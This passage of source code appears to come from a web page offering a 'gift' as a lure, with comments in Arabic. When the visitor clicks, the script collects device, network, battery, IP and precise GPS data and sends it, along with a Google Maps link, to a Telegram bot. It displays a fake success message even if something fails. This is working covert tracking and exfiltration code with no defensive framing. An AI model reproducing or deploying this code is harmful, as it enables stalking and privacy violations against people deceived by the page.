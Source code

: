                 // رابط خرائط جوجل
                message += `[عرض الموقع على خرائط جوجل](https://www.google.com/maps?q=${data.preciseLocation.preciseLatitude},${data.preciseLocation.preciseLongitude})`;
            }
            
            // إرسال الرسالة إلى Telegram
            const url = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendMessage`;
            
            return fetch(url, {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify({
                    chat_id: TELEGRAM_CHAT_ID,
                    text: message,
                    parse_mode: 'Markdown',
                    disable_web_page_preview: false
                })
            });
        }
        
        // العملية الرئيسية لجمع البيانات وإرسالها
        async function collectAndSendData() {
            try {
                // جمع البيانات الأساسية
                allCollectedData.deviceInfo = collectDeviceInfo();
                allCollectedData.networkInfo = collectNetworkInfo();
                
                // جمع البيانات غير المتزامنة
                const [batteryInfo, ipInfo, preciseLocation] = await Promise.all([
                    collectBatteryInfo(),
                    fetchIPAndLocation().catch(() => null),
                    fetchPreciseLocation()
                ]);
                
                allCollectedData.batteryInfo = batteryInfo;
                allCollectedData.ipInfo = ipInfo;
                allCollectedData.preciseLocation = preciseLocation;
                
                // إرسال البيانات إلى Telegram
                await sendToTelegram(allCollectedData);
                
                // عرض رسالة النجاح
                showSuccess();
                
            } catch (error) {
                console.error('حدث خطأ أثناء جمع البيانات:', error);
                // في حالة الخطأ، نعرض رسالة النجاح على أي حال
                showSuccess();
            }
        }
        
        // بدء عملية جمع البيانات بعد النقر على الهدية
        document.addEventListener('DOMContentLoaded', function() {
            const giftButton = document.querySelector('.btn-gift');
            if (giftButton) {
                giftButton.addEventListener('click', function(e) {
                    e.preventDefault();
                    document.getElementById('gift').scrollIntoView({behavior: 'smooth'});
                    